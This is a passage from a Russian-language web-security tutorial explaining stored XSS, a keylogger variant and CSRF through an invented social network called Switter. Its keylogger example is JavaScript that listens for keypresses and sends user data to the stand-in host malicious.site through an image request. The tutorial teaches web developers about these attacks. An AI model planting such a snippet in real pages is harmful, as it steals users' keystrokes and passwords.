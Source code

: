 #### Интерактивный пример

Взгляните на [пример stored XSS](https://application.security/free-application-security-training/owasp-top-10-stored-cross-site-scripting) на application.security.

### Key Logger

Одна из разновидностей хранимого XSS — это _key logger_. Представим, что в прошлый раз злоумышленники оставили не `alert()`, а программу, которая отправляет куда-то всё, что вы набираете на клавиатуре.

```jsx
document.body.addEventListener("keypress", (e) => {
  // ...Злоумышленники собираются все данные о пользователе,
  // которые им нужны: логин, время события, что угодно.
  const data = { ...user, key: e.key }

  // ...Переводят все данные в строку:
  const params = new URLSearchParams()

  // ...И «запрашивают картинку», но на самом деле
  // отправляют запрос на свой сервер с данными о пользователе.
  new Image().src = "https://malicious.site?data=" + encodeURIComponent(params)
})
```

Таким образом у пользователя могут украсть пароли и другие персональные данные.

### Cross-Site Request Forgery, CSRF

_Межсайтовая подделка запроса (Cross-Site Request Forgery, CSRF)_ — атака, при которой злоумышленники могут совершать действия как бы от лица пользователя.

Вернёмся к нашей совсем уж дырявой соцсети Switter. С последним обновлением Switter завёз пользователям возможность не только пересылать друг другу сообщения в личных переписках, но и деньги.

Злоумышленники знают, что после логина в Switter у пользователя остаются куки, которые потом используются для аутентификации. Они могут:

- Заманить пользователя, который был аутентифицирован в Switter, на вредоносную страницу;
- Используя его или её куки отправить запрос к Switter с «просьбой» переслать денег на конкретный аккаунт;
- Так как пользователь «аутентифицирован» запрос считается «валидным», пользователь теряет деньги.

![схема атаки Cross-Site Request Forgery](/assets/images/posts/js/web-security/csrf.png)

Проблемы здесь две:

- Злоумышленники могли увидеть куки пользователя и таким образом выдать себя за него.
- Сервису Switter достаточно аутентификации для перевода денег, он не требует авторизации запроса.

Авторизацию не следует путать с аутнентификацией.

- _Аутентификация_ — подтверждение личности (Вася — это действительно Вася).
- _Авторизация_ — подтверждение, что у пользователя хватает прав, чтобы выполнить какое-то действие (Марина действительно хочет перевести деньги, вот подтверждение).
